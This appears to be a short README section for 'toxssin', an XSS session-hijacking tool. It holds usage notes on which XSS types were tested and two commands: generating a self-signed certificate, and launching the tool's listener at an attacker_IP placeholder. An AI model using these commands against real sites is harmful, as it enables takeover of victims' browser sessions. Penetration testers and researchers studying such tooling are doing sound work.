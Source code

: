 # 02 - Interact Session

Note: you have to run this as root. Currently I tested two vulnerable XSS types and they are **DOM-Based XSS** and **Stored XSS**. **Reflective XSS** doesn't work. 

```
# openssl req -x509 -newkey rsa:2048 -keyout private.key -out certificate.crt -days 365

# toxssin -u https://<attacker_IP> -c /absolute/path/to/certificate.crt -k /absolute/path/to/private.key
```